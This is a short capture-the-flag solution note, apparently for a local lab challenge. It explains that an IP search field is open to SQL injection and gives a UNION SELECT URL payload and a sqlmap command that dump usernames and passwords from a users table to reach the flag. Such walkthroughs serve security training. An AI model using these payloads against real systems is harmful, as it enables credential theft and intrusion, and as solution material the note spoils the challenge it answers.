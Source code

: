 Challenger must notice IP search field is vulnerable to SQL injection

Can either be solved manually using Union injection, or with sqlmap

Manual:
```
http://localhost:3003/?ip=127.0.0.1%27+union+select+id%2Cusername%2Cpassword%2C4%2C5+from+users%3B--+-
```

Sqlmap:
```
sqlmap.py -u "http://localhost:3003/?ip=127.0.0.1" -T users --dump
```

This shows the admin username and password which can be used to login to the application and read the flag
